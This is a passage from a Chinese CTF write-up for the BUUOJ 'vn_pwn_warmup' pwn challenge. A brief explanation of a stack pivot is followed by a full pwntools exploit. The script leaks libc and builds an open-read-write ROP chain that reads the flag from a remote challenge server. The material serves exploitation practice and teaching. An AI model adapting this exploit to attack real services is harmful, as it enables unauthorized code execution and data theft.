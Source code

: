 那还是只能orw一把梭了  
在第二次输入的时候结尾加一个pop_rdi_ret，gdb跟一下会发现将第一次输入的内容pop到rdi中了，可知两个栈是相连的，执行完下面的就会继续执行第一次输入的  
![](warm_up1.png)  
那我们布置好参数调用一次read将flag字符串读到一个可写的区域，然后orw打过去就行
exp:  
```python  
from pwn import*
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
context.arch = 'amd64'
p=remote("node3.buuoj.cn",27383)
#p = process("./vn_pwn_warmup")
elf = ELF("./vn_pwn_warmup")
libc = ELF("libc-2.23_x64.so")
lib = process("libc-2.23_x64.so")
sleep(0.1)
p.recvuntil("0x")
puts_addr = int(p.recvline(),16)
libc_base = puts_addr - libc.sym['puts']
log.success("libc_base==>" + hex(libc_base))
libc.address = libc_base
pop_rdi_ret = 0x0000000000021102+libc_base
pop_rdx_rsi = 0x00000000001150c9+libc_base
ret = 0x0000000000000937 + libc_base
stack_addr = libc.sym['environ']  # environ是libc存储的栈地址
#gdb.attach(p)
payload = p64(0) + p64(pop_rdx_rsi) + p64(0x8) + p64(stack_addr) + p64(libc.sym['read'])  #调用read函数，第一个参数写在了第二次输入的最后
payload += p64(pop_rdi_ret) + p64(stack_addr) + p64(pop_rdx_rsi) + p64(0)*2 + p64(libc.sym['open'])
payload += p64(pop_rdi_ret) + p64(3) + p64(pop_rdx_rsi) + p64(0x100) + p64(stack_addr+8) + p64(libc.symbols['read'])
payload += p64(pop_rdi_ret) + p64(1) + p64(pop_rdx_rsi) + p64(0x100) + p64(stack_addr+8) + p64(libc.symbols['write'])
payload += "a"*(0x180-len(payload))
#gdb.attach(p)
p.send(payload)
sleep(0.1)

payload = "a"*0x78 + p64(pop_rdi_ret)
p.recvuntil("name?")
p.send(payload)
p.send("flag\x00\x00\x00\x00")
p.interactive()
```  
参考链接:  
https://www.freebuf.com/articles/network/87447.html (SROP学习)  
https://www.jianshu.com/p/ca4a5dacd1a2  
https://www.cnblogs.com/junmoxiao/p/6741642.html  